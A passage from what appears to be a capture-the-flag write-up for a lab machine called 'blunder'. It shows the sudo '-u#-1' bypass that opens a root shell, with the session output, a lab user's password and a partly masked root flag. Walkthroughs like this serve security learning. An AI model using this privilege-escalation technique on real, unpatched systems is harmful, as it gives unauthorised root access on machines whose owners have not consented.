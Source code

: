 I found this [**PoC**](https://www.exploit-db.com/exploits/47502) for exploiting this vuln, using `-u <shaun>` with sudo we can say which user to run as. We can also do the same using `-u#<uid>` with uid of user.

If we specify 0 as uid which is basically the uid for root, it returns the user can't run command as root. But as per PoC, if we specify `uid as -1` it will run the command as root.

```shell
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password120

root@blunder:/home/hugo# whoami
whoami
root
```
Bingo ! It worked.

#### Grabbing root.txt
```shell
root@blunder:/root# cat root.txt
cat root.txt
ef1d3e631dbca18*****************

```
And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
